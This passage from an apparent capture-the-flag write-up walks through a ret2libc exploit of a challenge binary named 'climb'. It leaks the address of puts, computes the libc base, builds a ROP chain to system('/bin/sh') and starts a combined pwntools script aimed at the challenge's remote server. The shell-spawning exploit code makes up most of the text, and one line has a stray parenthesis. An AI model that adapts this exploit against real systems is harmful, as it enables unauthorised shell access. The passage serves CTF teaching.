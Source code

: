 Now with this libc version I found a `system` and `bin/sh` address to get a shell. You can use [one_gadget](https://github.com/david942j/one_gadget) directly to get a shell but I mostly use `system` more to get know knowledge about the address of `system` and `binsh`.

### Address of bin/sh and system
```bash
BINSH = next(libc.search("/bin/sh")) #Verify with find /bin/sh libc6_2.27-3ubuntu1_amd64.so
SYSTEM = libc.sym["system"]

log.info("bin/sh: %s " % hex(BINSH))
log.info("system: %s " % hex(SYSTEM))
```


One thing to notice before this; we have to return to `main` so that we can overflow the function and get a shell. Hence my `part2_exploit` was

```bash
received = p.recvline().strip()
leak =  u64(received.ljust(8,b"\x00"))
log.info("Leaked libc address, Puts: %s" % hex(leak))

libc.address = leak - libc.sym["puts"]
log.info("Base address of libc: %s " % hex(libc.address))

BINSH = next(libc.search("/bin/sh")) 
SYSTEM = libc.sym["system"]

log.info("bin/sh: %s " % hex(BINSH))
log.info("system: %s " % hex(SYSTEM))

payload2 = OFFSET 
payload2 += p64(RET) 
payload2 += p64(POP_RDI) 
payload2 += p64(BINSH) 
payload2 += p64(SYSTEM)

p.recvuntil("How will you respond? "))

p.sendline(payload2)
```

In payload2, I used `RET` to make stack 16 bytes aligned by popping off 8 bytes off top of stack and returning to it.

### Pwning a shell
So combining the `part1` and `part2` exploit my final exploit becomes

```python
#!/bin/python
# (combined)exploit.py

from pwn import * # Import pwntools

p= remote('cha.hackpack.club',41702)
#p = process("./climb") 
elf = ELF("./climb")
libc = ELF("libc6_2.27-3ubuntu1_amd64.so")
rop = ROP(elf)# Find ROP gadgets

PUTS_PLT = elf.plt['puts']
MAIN = elf.symbols['main']
PUTS_GOT = elf.got['puts']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]# Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]
```